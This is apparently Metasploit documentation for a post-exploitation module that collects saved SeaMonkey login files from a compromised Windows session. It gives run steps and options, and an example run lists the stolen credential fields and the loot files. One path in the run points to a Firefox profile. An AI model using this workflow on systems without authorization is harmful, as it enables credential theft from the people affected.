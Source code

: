## Module Description

This post-exploitation module gathers artifacts found on seamonkey related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/seamonkey
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifcats/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by defalt and will perform the data extraction using the predefined regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Example Run
  ```
msf6 post(windows/gather/credentials/seamonkey) > run 



[*] Seamonkey's parent folder found
[*] Seamonkey's Logins.json file found
[*] Downloading C:\Users\IEUser\AppData\Roaming\Mozilla\Firefox\Profiles\r68nu6yz.default-release\logins.json
[*] Seamonkey Logins.json downloaded
[+] File saved to:  /root/.msf4/loot/20210521112655_default_192.168.56.106_seamonkeylogins._241786.bin

[+] ['hostname']:  https://login.live.com

[+] ['usernameField']:  loginfmt

[+] ['passwordField']:  passwd

[+] ['encryptedUsername']:  **************************************************************==

[+] ['encryptedPassword']:  **************************************************************

[+] File with data saved:  /root/.msf4/loot/20210521112655_default_192.168.56.106_EXTRACTIONSlogin_914205.bin
[*] Downloading C:\Users\IEUser\AppData\Roaming\Mozilla\SeaMonkey\Profiles\ovqvptq0.default\logins.json
[*] Seamonkey Logins.json downloaded
[+] File saved to:  /root/.msf4/loot/20210521112655_default_192.168.56.106_seamonkeylogins._569684.bin

[+] ['hostname']:  https://login.live.com

[+] ['usernameField']:  loginfmt

[+] ['passwordField']:  passwd

[+] ['encryptedUsername']:  **************************************************************==

[+] ['encryptedPassword']:  **************************************************************

[+] File with data saved:  /root/.msf4/loot/20210521112656_default_192.168.56.106_EXTRACTIONSlogin_379436.bin

[*] PackRat credential sweep Completed
[*] Post module execution completed
```
